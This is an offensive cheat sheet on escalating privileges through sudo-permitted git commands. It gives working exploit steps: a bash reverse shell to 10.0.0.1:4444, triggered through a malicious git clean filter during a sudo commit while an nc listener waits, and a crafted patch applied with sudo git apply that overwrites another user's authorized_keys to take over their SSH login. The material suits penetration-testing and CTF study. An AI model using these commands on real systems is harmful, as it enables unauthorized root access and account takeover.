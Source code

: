 ```yaml
---
title: Sudo Git Privilege Escalation
description: Sudo git is vulnerable to privilege escalation.
tags:
    - Privilege Escalation
refs:
date: 2023-07-23
draft: false
---
```


## Git Add/Commit

```bash
sudo /usr/bin/git --git-dir=/opt/example/.git --work-tree=/opt/example add -A
sudo /usr/bin/git --git-dir=/opt/example/.git --work-tree=/opt/example commit -m "commit"
```

If we can commit the git repository as root, we may be able to escalate privileges.

### Exploitation

1. **Create a Payload**

```bash
echo 'bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"' > /tmp/revshell
chmod +x /tmp/revshell
```

2. **Set Git Config**

```bash
# Go to the git repository
cd /opt/example
git init
echo '*.php filter=indent' > .git/info/attributes
git config filter.indent.clean /tmp/revshell
```

3. **Commit the Repository**

Before committing, we need to start a listener in local machine.

```bash
nc -lvnp 4444
```

Then commit with sudo.

```bash
sudo /usr/bin/git --git-dir=/opt/example/.git --work-tree=/opt/example add -A
sudo /usr/bin/git --git-dir=/opt/example/.git --work-tree=/opt/example commit -m "commit"
```

Now we should get a shell in local terminal.

<br />

## Git Apply

```bash
sudo /usr/bin/git apply *
```

If we can apply the patch for the git repository, we can update the content of arbitrary file.

### Exploitation with SSH Keys

Assume we are currently "user1" user then we want to escalate to be "user2".  
First we create a new SSH key.

```bash
cd /home/user1
ssh-keygen -t rsa
Enter file in which to save the key (/home/user1/.ssh/id_rsa): id_rsa
```

New SSH keys (private/public) are generated under **`/home/user1`**.  
Next, add the content of **`id_rsa.pub`** into **`authorized_keys.`**.

```bash
cat /home/user1/id_rsa.pub > /home/user1/.ssh/authorized_keys
```

Then create a patch.

```bash
cd /home
git diff user1/.bash_history user1/.ssh/authorized_keys > /tmp/patch
```

After that, replace the name “user1” with “user2” in the patch file.  

```bash
sed -i 's/user1/user2/g' /tmp/patch
```

Now we can apply the patch as root. This command update the target user’s ("user2") **`authorization_keys`** to allow us to login with SSH key as "user2".

```bash
sudo /usr/bin/git apply /tmp/patch
ssh -i /home/user1/.ssh/id_rsa user2@example.com
```